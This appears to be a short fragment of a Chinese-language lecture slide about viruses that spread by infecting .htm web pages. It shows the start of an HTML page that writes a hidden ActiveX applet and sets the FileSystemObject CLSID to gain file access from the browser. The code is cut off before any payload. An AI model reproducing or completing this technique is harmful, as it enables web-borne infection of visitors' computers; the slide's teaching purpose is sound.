

# 通过感染htm等网页文件传播
<html>
<head>
<title>利用CLSID创建实例</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>

<script language="JavaScript">

document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>");

function creatObj() {
   try{

     obj=document.applets[0];

     obj.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");